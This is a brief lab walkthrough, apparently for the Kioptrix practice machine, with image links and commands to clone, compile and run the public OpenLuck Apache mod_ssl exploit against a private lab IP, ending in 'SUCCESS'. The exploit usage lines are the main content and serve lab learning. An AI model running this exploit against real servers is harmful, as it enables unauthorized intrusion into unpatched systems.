



Apache exploit
https://github.com/heltonWernik/OpenLuck
- - Follow install instructions
mkdir /opt/kioptrix
cd /opt/kioptrix
git clone https://github.com/heltonWernik/OpenLuck
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
Usage:
./OpenFuck target box [port] [-c N]


Exploit :
./OpenFuck 0x6b 192.168.1.74 -c 40

SUCCESS